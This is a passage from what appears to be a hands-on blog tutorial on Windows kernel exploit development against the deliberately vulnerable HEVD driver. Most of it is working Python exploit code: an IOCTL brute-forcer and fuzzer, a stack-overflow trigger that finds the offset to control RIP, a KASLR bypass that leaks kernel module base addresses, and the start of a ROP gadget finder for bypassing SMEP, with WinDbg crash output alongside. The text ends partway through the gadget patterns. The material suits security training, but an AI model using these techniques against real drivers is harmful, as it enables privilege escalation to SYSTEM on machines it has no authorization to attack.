









## Introduction — From Internals to Exploitation

 we covered the foundational Windows internals concepts. Now it is time to **weaponize** that knowledge. This post is a complete, hands-on guide to developing Windows kernel exploits — from finding vulnerabilities to popping a SYSTEM shell.

We will use the **HackSys Extreme Vulnerable Driver (HEVD)** as our primary target, but every technique applies to real-world vulnerabilities.

### What You Need Before Starting

| Requirement | Details |
|-------------|---------|
| **Test VM** | Windows 10/11 x64 with test signing enabled |
| **Debugger** | WinDbg Preview (host) connected to VM via serial/network |
| **Compiler** | Visual Studio 2022 with C/C++ and WDK |
| **HEVD Driver** | [Download from GitHub](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver) |
| **Python** | Python 3.x with `ctypes` for quick prototyping |
| **Prior Knowledge** | Windows Internals Part 1 (previous blog post) |

> **WARNING:** All techniques in this post are for **educational and authorized security research only**. Never use kernel exploits against systems you do not own or have explicit permission to test.
{: .prompt-danger }

---

## The Kernel Exploitation Roadmap

Every kernel exploit follows a structured path from vulnerability to SYSTEM shell:



---

## Phase 1: Vulnerability Discovery in Kernel Drivers

### Identifying Attack Surface

The first step is finding **which IOCTLs a driver exposes** and how it handles input. We reverse engineer the driver to find the dispatch table.

**Automated IOCTL Discovery Tool:**

```python
#!/usr/bin/env python3
"""
Windows Kernel Driver IOCTL Fuzzer & Enumerator
Discovers and fuzzes IOCTL handlers in kernel drivers.
"""

import ctypes
import ctypes.wintypes as wintypes
import struct
import sys
import os
import time

# Windows API definitions
kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)
ntdll = ctypes.WinDLL('ntdll', use_last_error=True)

GENERIC_READ = 0x80000000
GENERIC_WRITE = 0x40000000
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x80
INVALID_HANDLE_VALUE = ctypes.c_void_p(-1).value

# CTL_CODE macro implementation
def CTL_CODE(device_type, function, method, access):
    return (device_type << 16) | (access << 14) | (function << 2) | method

FILE_DEVICE_UNKNOWN = 0x22
METHOD_NEITHER = 3
METHOD_BUFFERED = 0
METHOD_IN_DIRECT = 1
METHOD_OUT_DIRECT = 2
FILE_ANY_ACCESS = 0

class IOCTLFuzzer:
    def __init__(self, device_name):
        self.device_name = device_name
        self.handle = None
        self.found_ioctls = []

    def open_device(self):
        """Open handle to the target driver."""
        self.handle = kernel32.CreateFileW(
            self.device_name,
            GENERIC_READ | GENERIC_WRITE,
            0,
            None,
            OPEN_EXISTING,
            FILE_ATTRIBUTE_NORMAL,
            None
        )

        if self.handle == INVALID_HANDLE_VALUE:
            error = ctypes.get_last_error()
            print(f"[-] Failed to open {self.device_name}. Error: {error}")
            return False

        print(f"[+] Opened device: {self.device_name}")
        print(f"[+] Handle: 0x{self.handle:X}")
        return True

    def send_ioctl(self, ioctl_code, input_buffer=None, input_size=0,
                   output_size=0x1000):
        """Send a single IOCTL to the driver."""
        if input_buffer is None:
            input_buffer = ctypes.create_string_buffer(input_size)

        output_buffer = ctypes.create_string_buffer(output_size)
        bytes_returned = wintypes.DWORD(0)

        result = kernel32.DeviceIoControl(
            self.handle,
            ioctl_code,
            input_buffer,
            input_size,
            output_buffer,
            output_size,
            ctypes.byref(bytes_returned),
            None
        )

        return result, bytes_returned.value, output_buffer.raw[:bytes_returned.value]

    def enumerate_ioctls(self, device_type=FILE_DEVICE_UNKNOWN,
                         function_range=(0x800, 0x900)):
        """Enumerate valid IOCTLs by brute-forcing function codes."""
        print(f"\n[*] Enumerating IOCTLs (functions 0x{function_range[0]:X} - 0x{function_range[1]:X})...")
        print(f"[*] Device type: 0x{device_type:X}")
        print("-" * 70)

        for function in range(function_range[0], function_range[1]):
            for method in range(4):
                ioctl = CTL_CODE(device_type, function, method, FILE_ANY_ACCESS)

                try:
                    # Send minimal input to test if IOCTL is valid
                    test_buffer = ctypes.create_string_buffer(b'\x41' * 8)
                    result, bytes_ret, output = self.send_ioctl(
                        ioctl, test_buffer, 8, 0x100
                    )

                    error = ctypes.get_last_error()

                    # If we don't get ERROR_INVALID_FUNCTION (1), the IOCTL exists
                    if error != 1:
                        method_names = ['BUFFERED', 'IN_DIRECT', 'OUT_DIRECT', 'NEITHER']
                        print(f"[+] FOUND: IOCTL=0x{ioctl:08X} | "
                              f"Function=0x{function:X} | "
                              f"Method={method_names[method]} | "
                              f"Error={error} | "
                              f"BytesRet={bytes_ret}")
                        self.found_ioctls.append({
                            'code': ioctl,
                            'function': function,
                            'method': method,
                            'error': error
                        })

                except Exception as e:
                    pass

        print("-" * 70)
        print(f"[+] Found {len(self.found_ioctls)} valid IOCTLs")
        return self.found_ioctls

    def fuzz_ioctl(self, ioctl_code, iterations=100):
        """Fuzz a specific IOCTL with various input sizes and patterns."""
        print(f"\n[*] Fuzzing IOCTL 0x{ioctl_code:08X} ({iterations} iterations)...")

        patterns = [
            b'\x41' * 8,          # Small buffer
            b'\x41' * 64,         # Medium buffer
            b'\x41' * 256,        # Larger buffer
            b'\x41' * 1024,       # Large buffer
            b'\x41' * 4096,       # Page-sized buffer
            b'\x00' * 64,         # NULL bytes
            b'\xff' * 64,         # All 0xFF
            struct.pack('<Q', 0xFFFFFFFFFFFFFFFF) * 8,   # Max QWORD values
            struct.pack('<Q', 0x0000000000000000) * 8,   # Zero QWORDs
            struct.pack('<Q', 0x4141414141414141) * 8,   # Pattern QWORDs
            struct.pack('<Q', 0xFFFF800000000000) * 4,   # Kernel addresses
            struct.pack('<Q', 0x0000000041414141) * 4,   # Controlled low values
        ]

        crash_count = 0

        for i, pattern in enumerate(patterns):
            for size_multiplier in [1, 2, 4, 8, 16]:
                test_data = pattern * size_multiplier
                test_buffer = ctypes.create_string_buffer(test_data)

                try:
                    result, bytes_ret, output = self.send_ioctl(
                        ioctl_code,
                        test_buffer,
                        len(test_data),
                        0x1000
                    )
                    error = ctypes.get_last_error()

                    if result:
                        print(f"  [OK] Pattern {i}, Size {len(test_data)}: "
                              f"Success, {bytes_ret} bytes returned")
                    else:
                        print(f"  [--] Pattern {i}, Size {len(test_data)}: "
                              f"Failed, Error={error}")

                except Exception as e:
                    crash_count += 1
                    print(f"  [!!] Pattern {i}, Size {len(test_data)}: "
                          f"EXCEPTION: {e}")

        print(f"\n[*] Fuzzing complete. Crashes: {crash_count}")

    def close(self):
        """Close device handle."""
        if self.handle:
            kernel32.CloseHandle(self.handle)
            print("[+] Device handle closed.")


def main():
    if len(sys.argv) < 2:
        print("Usage: python ioctl_fuzzer.py <device_name>")
        print("Example: python ioctl_fuzzer.py \\\\.\\HackSysExtremeVulnerableDriver")
        sys.exit(1)

    device_name = sys.argv[1]
    fuzzer = IOCTLFuzzer(device_name)

    if not fuzzer.open_device():
        sys.exit(1)

    # Phase 1: Enumerate valid IOCTLs
    found = fuzzer.enumerate_ioctls(function_range=(0x800, 0x830))

    # Phase 2: Fuzz each found IOCTL
    for ioctl_info in found:
        fuzzer.fuzz_ioctl(ioctl_info['code'], iterations=50)

    fuzzer.close()


if __name__ == '__main__':
    main()
```

**Example output discovering HEVD IOCTLs:**

```text
[+] Opened device: \\.\HackSysExtremeVulnerableDriver
[+] Handle: 0x1A4

[*] Enumerating IOCTLs (functions 0x800 - 0x830)...
[*] Device type: 0x22
----------------------------------------------------------------------
[+] FOUND: IOCTL=0x00222003 | Function=0x800 | Method=NEITHER | Error=0 | BytesRet=0
[+] FOUND: IOCTL=0x00222007 | Function=0x801 | Method=NEITHER | Error=0 | BytesRet=0
[+] FOUND: IOCTL=0x0022200B | Function=0x802 | Method=NEITHER | Error=0 | BytesRet=0
[+] FOUND: IOCTL=0x0022200F | Function=0x803 | Method=NEITHER | Error=0 | BytesRet=0
[+] FOUND: IOCTL=0x00222013 | Function=0x804 | Method=NEITHER | Error=0 | BytesRet=0
[+] FOUND: IOCTL=0x00222017 | Function=0x805 | Method=NEITHER | Error=0 | BytesRet=0
----------------------------------------------------------------------
[+] Found 6 valid IOCTLs
```

### Reverse Engineering the Dispatch Handler in IDA Pro

When analyzing a driver binary, you need to locate the **`IRP_MJ_DEVICE_CONTROL`** handler:

```c
/*
 * What you see after reversing the driver's DriverEntry in IDA:
 *
 * DriverEntry sets up the dispatch table:
 */

NTSTATUS DriverEntry(PDRIVER_OBJECT DriverObject, PUNICODE_STRING RegistryPath)
{
    // ... device creation ...

    // The IOCTL handler is registered here:
    DriverObject->MajorFunction[IRP_MJ_DEVICE_CONTROL] = IrpDeviceIoCtlHandler;
    //                         ^^^^^^^^^^^^^^^^^^^^^^
    //                         Index 14 (0xE) in the MajorFunction array

    // ... rest of initialization ...
}

/*
 * The dispatch handler typically looks like this:
 */
NTSTATUS IrpDeviceIoCtlHandler(PDEVICE_OBJECT DeviceObject, PIRP Irp)
{
    PIO_STACK_LOCATION irpSp = IoGetCurrentIrpStackLocation(Irp);
    ULONG ioControlCode = irpSp->Parameters.DeviceIoControl.IoControlCode;

    switch (ioControlCode)
    {
        case 0x222003:  // Stack Overflow
            status = StackOverflowHandler(Irp, irpSp);
            break;

        case 0x222007:  // Write-What-Where
            status = WriteWhatWhereHandler(Irp, irpSp);
            break;

        case 0x22200B:  // Use-After-Free
            status = UseAfterFreeHandler(Irp, irpSp);
            break;

        case 0x22200F:  // Pool Overflow
            status = PoolOverflowHandler(Irp, irpSp);
            break;

        case 0x222013:  // Integer Overflow
            status = IntegerOverflowHandler(Irp, irpSp);
            break;

        case 0x222017:  // Type Confusion
            status = TypeConfusionHandler(Irp, irpSp);
            break;

        // ... more handlers ...
    }
}
```

**Finding the dispatch handler in WinDbg:**

```text
kd> !drvobj \Driver\HackSysExtremeVulnerableDriver 2

Driver object (ffffe00112345678) is for:
 \Driver\HackSysExtremeVulnerableDriver

DriverEntry:    fffff801`12340000  HEVD!DriverEntry
DriverUnload:   fffff801`12341000  HEVD!DriverUnload

Dispatch routines:
[00] IRP_MJ_CREATE                  fffff801`12341100  HEVD!IrpCreateCloseHandler
[01] IRP_MJ_CLOSE                   fffff801`12341100  HEVD!IrpCreateCloseHandler
[0e] IRP_MJ_DEVICE_CONTROL          fffff801`12341200  HEVD!IrpDeviceIoCtlHandler
                                     ^^^^^^^^^^^^^^^^^
                                     This is our target!

kd> uf HEVD!IrpDeviceIoCtlHandler
; Disassembly shows the switch statement with all IOCTL codes
```

---

## Phase 2: Exploit Primitive Development

### Exploit 1: Stack Buffer Overflow — Full Chain

This is the classic starting exploit. We overflow a stack buffer in kernel mode to hijack control flow.



#### Step 1: Understanding the Vulnerable Code

```c
/*
 * HEVD Stack Overflow Handler (simplified from source)
 * File: StackOverflow.c
 */
NTSTATUS TriggerStackOverflow(PVOID UserBuffer, SIZE_T Size)
{
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG KernelBuffer[512];  // 2048 bytes (512 * 4) on stack

    DbgPrint("[***] KernelBuffer: 0x%p\n", &KernelBuffer);
    DbgPrint("[***] KernelBuffer Size: %d\n", sizeof(KernelBuffer));
    DbgPrint("[***] UserBuffer: 0x%p\n", UserBuffer);
    DbgPrint("[***] UserBuffer Size: %d\n", Size);

    // VULNERABILITY: memcpy with user-controlled size!
    // If Size > 2048, we overflow past KernelBuffer into saved RBP and return address
    RtlCopyMemory((PVOID)KernelBuffer, UserBuffer, Size);

    return Status;
}
```

#### Step 2: Finding the Crash Offset

```python
#!/usr/bin/env python3
"""
HEVD Stack Overflow — Step 2: Finding the exact offset to RIP control.
"""

import ctypes
import ctypes.wintypes as wintypes
import struct
import sys

kernel32 = ctypes.WinDLL('kernel32', use_last_error=True)

GENERIC_READ  = 0x80000000
GENERIC_WRITE = 0x40000000
OPEN_EXISTING = 3
FILE_ATTRIBUTE_NORMAL = 0x80

# HEVD Stack Overflow IOCTL
HEVD_IOCTL_STACK_OVERFLOW = 0x222003

def create_pattern(length):
    """Generate a unique pattern (De Bruijn sequence) for offset finding."""
    pattern = b""
    for upper in range(ord('A'), ord('Z') + 1):
        for lower in range(ord('a'), ord('z') + 1):
            for digit in range(0, 10):
                pattern += bytes([upper, lower, digit + ord('0'), ord('!')])
                if len(pattern) >= length:
                    return pattern[:length]
    return pattern[:length]

def find_offset(pattern, value_bytes):
    """Find the offset of a value in the pattern."""
    idx = pattern.find(value_bytes)
    if idx != -1:
        return idx
    return -1

def main():
    # Open device
    device_name = "\\\\.\\HackSysExtremeVulnerableDriver"
    hDevice = kernel32.CreateFileW(
        device_name,
        GENERIC_READ | GENERIC_WRITE,
        0, None, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, None
    )

    if hDevice == ctypes.c_void_p(-1).value:
        print(f"[-] Failed to open device. Error: {ctypes.get_last_error()}")
        return

    print(f"[+] Device opened. Handle: 0x{hDevice:X}")

    # Generate pattern
    # KernelBuffer is 2048 bytes, we need to overflow past it
    # Stack layout: [KernelBuffer(2048)] [SavedRBP(8)] [ReturnAddress(8)]
    # So offset to RIP = 2048 + 8 = 2056

    pattern_size = 2080  # 2048 + enough to overwrite RIP and beyond
    pattern = create_pattern(pattern_size)

    print(f"[*] Pattern size: {pattern_size} bytes")
    print(f"[*] Sending pattern to trigger crash...")
    print(f"[*] Check WinDbg for the crash and note the value in RIP")
    print()
    print(f"[*] After crash, use this to find offset:")
    print(f"    The pattern starts with: {pattern[:20]}")

    # Send the pattern
    input_buffer = ctypes.create_string_buffer(pattern)
    bytes_returned = wintypes.DWORD(0)

    result = kernel32.DeviceIoControl(
        hDevice,
        HEVD_IOCTL_STACK_OVERFLOW,
        input_buffer,
        pattern_size,
        None,
        0,
        ctypes.byref(bytes_returned),
        None
    )

    print(f"[*] DeviceIoControl result: {result}")
    kernel32.CloseHandle(hDevice)

if __name__ == '__main__':
    main()
```

**WinDbg crash analysis:**

```text
*** Fatal System Error: 0x0000003b
                       (SYSTEM_SERVICE_EXCEPTION)

CONTEXT:
rax=0000000000000000 rbx=ffffe00112345678 rcx=0000000000000050
rdx=0000000000000000 rsi=0000000000000000 rdi=0000000000000000
rip=4133644132644131 rsp=ffffd001a2b3c4e0 rbp=3264413164413064
                     ^^^^^^^^^^^^^^^^
                     This is our pattern data in RIP!

kd> .formats 4133644132644131
  Chars:   A1dA2dA3   ← Find this in our pattern

Offset to RIP: 2056 bytes (0x808)

So our buffer layout is:
[2048 bytes of KernelBuffer] [8 bytes SavedRBP] [8 bytes RIP]
                              offset 2048        offset 2056
```

#### Step 3: KASLR Bypass — Leaking Kernel Base

```python
#!/usr/bin/env python3
"""
KASLR Bypass — Leak ntoskrnl.exe base address.
Uses NtQuerySystemInformation with SystemModuleInformation.
"""

import ctypes
import ctypes.wintypes as wintypes
import struct

ntdll = ctypes.WinDLL('ntdll')
psapi = ctypes.WinDLL('psapi')

def leak_kernel_base_method1():
    """Method 1: EnumDeviceDrivers — simplest approach."""
    driver_addresses = (ctypes.c_void_p * 1024)()
    bytes_needed = wintypes.DWORD()

    psapi.EnumDeviceDrivers(
        ctypes.byref(driver_addresses),
        ctypes.sizeof(driver_addresses),
        ctypes.byref(bytes_needed)
    )

    # First entry is always ntoskrnl.exe
    kernel_base = driver_addresses[0]

    # Verify by getting the name
    name_buffer = ctypes.create_string_buffer(256)
    psapi.GetDeviceDriverBaseNameA(kernel_base, name_buffer, 256)

    return kernel_base, name_buffer.value.decode()


def leak_kernel_base_method2():
    """Method 2: NtQuerySystemInformation — more detailed."""

    # SystemModuleInformation = 11
    SystemModuleInformation = 11

    # First call to get required buffer size
    length = wintypes.ULONG(0)
    ntdll.NtQuerySystemInformation(
        SystemModuleInformation, None, 0, ctypes.byref(length)
    )

    # Allocate buffer
    buffer = ctypes.create_string_buffer(length.value)

    # Second call to get actual data
    status = ntdll.NtQuerySystemInformation(
        SystemModuleInformation,
        buffer,
        length.value,
        ctypes.byref(length)
    )

    if status != 0:
        print(f"[-] NtQuerySystemInformation failed: 0x{status:08X}")
        return None, None

    # Parse the result
    # First ULONG is NumberOfModules
    num_modules = struct.unpack_from('<I', buffer.raw, 0)[0]

    # Each module entry starts at offset 8 (after NumberOfModules + padding)
    # RTL_PROCESS_MODULE_INFORMATION structure (x64):
    #   +0x00 Section (8 bytes)
    #   +0x08 MappedBase (8 bytes)
    #   +0x10 ImageBase (8 bytes)     <-- This is what we want
    #   +0x18 ImageSize (4 bytes)
    #   +0x1C Flags (4 bytes)
    #   +0x20 LoadOrderIndex (2 bytes)
    #   +0x22 InitOrderIndex (2 bytes)
    #   +0x24 LoadCount (2 bytes)
    #   +0x26 OffsetToFileName (2 bytes)
    #   +0x28 FullPathName (256 bytes)
    # Total: 0x128 (296 bytes) per entry

    MODULE_ENTRY_SIZE = 0x128
    MODULE_OFFSET_START = 8  # After NumberOfModules + padding

    modules = []
    for i in range(min(num_modules, 20)):  # First 20 modules
        offset = MODULE_OFFSET_START + (i * MODULE_ENTRY_SIZE)

        image_base = struct.unpack_from('<Q', buffer.raw, offset + 0x10)[0]
        image_size = struct.unpack_from('<I', buffer.raw, offset + 0x18)[0]
        name_offset_in_path = struct.unpack_from('<H', buffer.raw, offset + 0x26)[0]

        # Extract module name from FullPathName
        full_path = buffer.raw[offset + 0x28: offset + 0x28 + 256]
        full_path = full_path.split(b'\x00')[0].decode('ascii', errors='ignore')
        module_name = full_path[name_offset_in_path:] if name_offset_in_path < len(full_path) else full_path

        modules.append({
            'name': module_name,
            'base': image_base,
            'size': image_size
        })

    return modules


def find_driver_base(driver_name):
    """Find the base address of a specific driver."""
    modules = leak_kernel_base_method2()
    if modules is None:
        return None

    for mod in modules:
        if driver_name.lower() in mod['name'].lower():
            return mod['base'], mod['size']

    return None, None


def main():
    print("=" * 60)
    print("   KASLR Bypass — Kernel Module Address Leak")
    print("=" * 60)

    # Method 1
    print("\n[Method 1: EnumDeviceDrivers]")
    base, name = leak_kernel_base_method1()
    print(f"  Kernel base: 0x{base:016X}")
    print(f"  Module name: {name}")

    # Method 2
    print(f"\n[Method 2: NtQuerySystemInformation]")
    modules = leak_kernel_base_method2()
    if modules:
        print(f"  {'Module':<30} {'Base':>18} {'Size':>12}")
        print(f"  {'-'*30} {'-'*18} {'-'*12}")
        for mod in modules[:10]:
            print(f"  {mod['name']:<30} 0x{mod['base']:016X} 0x{mod['size']:08X}")

    # Find HEVD base
    print(f"\n[Finding HEVD driver]")
    hevd_base, hevd_size = find_driver_base("HEVD")
    if hevd_base:
        print(f"  HEVD base: 0x{hevd_base:016X}")
        print(f"  HEVD size: 0x{hevd_size:08X}")
    else:
        print("  HEVD not found — is the driver loaded?")


if __name__ == '__main__':
    main()
```

**Example output:**

```text
============================================================
   KASLR Bypass — Kernel Module Address Leak
============================================================

[Method 1: EnumDeviceDrivers]
  Kernel base: 0xFFFFF8000A200000
  Module name: ntoskrnl.exe

[Method 2: NtQuerySystemInformation]
  Module                              Base             Size
  ------------------------------ ------------------ ------------
  ntoskrnl.exe                   0xFFFFF8000A200000 0x00A73000
  hal.dll                        0xFFFFF8000AC80000 0x00078000
  kd.dll                         0xFFFFF8000ACF8000 0x00018000
  mcupdate_GenuineIntel.dll      0xFFFFF8000AD10000 0x00040000
  CLFS.SYS                       0xFFFFF8000B010000 0x00070000
  tm.sys                         0xFFFFF8000B080000 0x00030000
  PSHED.dll                      0xFFFFF8000B0B0000 0x00020000
  BOOTVID.dll                    0xFFFFF8000B0D0000 0x00010000
  FLTMGR.SYS                    0xFFFFF8000B0E0000 0x00080000
  HEVD.sys                      0xFFFFF8010D230000 0x00010000

[Finding HEVD driver]
  HEVD base: 0xFFFFF8010D230000
  HEVD size: 0x00010000
```

#### Step 4: Finding ROP Gadgets in ntoskrnl.exe

Since SMEP prevents executing user-mode code from kernel mode, we need **ROP (Return-Oriented Programming)** using gadgets from kernel modules.

```python
#!/usr/bin/env python3
"""
ROP Gadget Finder for ntoskrnl.exe
Extracts useful gadgets for kernel exploitation.
"""

import subprocess
import re
import struct

def find_gadgets_rp(ntoskrnl_path):
    """
    Use rp++ or ROPgadget to find gadgets in ntoskrnl.exe.
    Requires: pip install ROPgadget
    """
    print(f"[*] Searching for gadgets in {ntoskrnl_path}...")
    print(f"[*] This may take a few minutes...\n")

    # Using ROPgadget
    try:
        result = subprocess.run(
            ['ROPgadget', '--binary', ntoskrnl_path, '--depth', '6'],
            capture_output=True, text=True, timeout=300
        )
        gadgets = result.stdout.split('\n')
    except FileNotFoundError:
        print("[-] ROPgadget not found. Install with: pip install ROPgadget")
        return []

    # Filter for useful gadgets
    useful_patterns = [
        # Stack pivot gadgets
        r'xchg.*rax.*rsp.*ret',
        r'mov rsp.*ret',

        # Register control
        r'pop rcx.*ret',
        r'pop rdx.*ret',
        r'pop r8.*ret',
        r'pop rax.*ret',

